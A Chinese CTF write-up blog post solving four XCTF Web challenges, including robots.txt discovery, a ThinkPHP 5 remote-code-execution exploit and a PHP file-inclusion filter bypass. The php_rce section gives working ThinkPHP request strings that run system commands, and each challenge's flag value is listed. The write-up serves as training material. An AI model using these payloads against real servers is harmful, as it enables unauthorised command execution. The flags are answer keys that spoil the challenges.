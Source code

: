 ```yaml
---
title: 攻防世界Web高手进阶题
date: 2021-08-12 16:14:08
tags: [CTF,Web]
categories: CTF
---
```

# baby_web64
## 题目
&emsp;&emsp;难度系数： 1.0  
&emsp;&emsp;题目来源： 暂无  
&emsp;&emsp;题目描述：想想初始页面是哪个
## 解答
&emsp;&emsp;根据提示，直接访问index.php，发现被重定向回1.php，F12看请求，找到答案。

[![](https://pic.lufer.cc:8089/images/2021/08/12/image81e277c1fdc7463e.md.png)](https://pic.lufer.cc:8089/image/dcwo)

# Training-WWW-Robots
## 题目
&emsp;&emsp;难度系数： 1.0  
&emsp;&emsp;题目来源： 暂无  
&emsp;&emsp;题目描述：暂无  
## 解答
&emsp;&emsp;访问robots.php,得到网站目录。
```
User-agent: *
Disallow: /fl0g.php


User-agent: Yandex
Disallow: *
```
&emsp;&emsp;访问fl0g.php，得到答案`cyberpeace{67670cc4fa7382a7a38f780508caa43b}`。

# php_rce
## 题目
&emsp;&emsp;难度系数： 2.0  
&emsp;&emsp;题目来源： 暂无  
&emsp;&emsp;题目描述：暂无  
## 解答
&emsp;&emsp;根据题目描述，应该是远程代码执行漏洞，实验环境提示是ThinkPHPV5，百度搜索该版本的远程执行漏洞，得到代码如下：
`/index.php?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=whoami`

&emsp;&emsp;通过ls命令查看目录文件，发现没有，开始往上层找，最终再三层之后找到了flag文件：

`/index.php?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=ls%20../../../`

>bin boot dev etc flag home lib lib64 media mnt opt proc root run sbin srv sys tmp usr var var

&emsp;&emsp;cat一下flag文件得到答案：

`/index.php?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=cat%20../../../flag`

>flag{thinkphp5_rce} flag{thinkphp5_rce}

# Web_php_include
## 题目
&emsp;&emsp;难度系数： 2.0  
&emsp;&emsp;题目来源： XTCTF  
&emsp;&emsp;题目描述：暂无  
## 解答
&emsp;&emsp;根据题目描述，应该是PHP的文件包含漏洞。  
&emsp;&emsp;PHP的文件包含漏洞是指对于PHP中4个函数`include`、`include_once`、`require`、`require_once`，当利用这四个函数来包含文件时，不管文件是什么类型（图片、txt等等），都会直接作为php文件进行解析。  
&emsp;&emsp;观察题目环境，注意到是include了page页面，所以可以在对page的访问中构造攻击命令。
```php
<?php
show_source(__FILE__);
echo $_GET['hello'];
$page=$_GET['page'];
while (strstr($page, "php://")) {
    $page=str_replace("php://", "", $page);
}
include($page);
?>
```
&emsp;&emsp;然后PHP的文件包含漏洞攻击有两个常用命令：
1. php://input  
&emsp;&emsp;这个协议的利用方法是 将要执行的语法php代码写在post中提交，不用键与值的形式，只写代码即可。
2. php://filter  
&emsp;&emsp;设计用来过滤筛选文件，通过filter非php语法文件导致include失败，直接输出源码内容。

&emsp;&emsp;先采用input方法执行ls指令来查看目录下都有什么文件。  
&emsp;&emsp;由于代码中对php进行了替换，借助str_replace对大小写敏感来绕过替换。

![](https://pic.lufer.cc:8089/images/2021/08/12/image4c3fad9ca61d3e16.png)

&emsp;&emsp;发现目录下有疑似flag的文件，cat一下内容。

![](https://pic.lufer.cc:8089/images/2021/08/12/imaged1b72a13a09c1fcf.png)

&emsp;&emsp;得到答案`ctf{876a5fca-96c6-4cbd-9075-46f0c89475d2}`。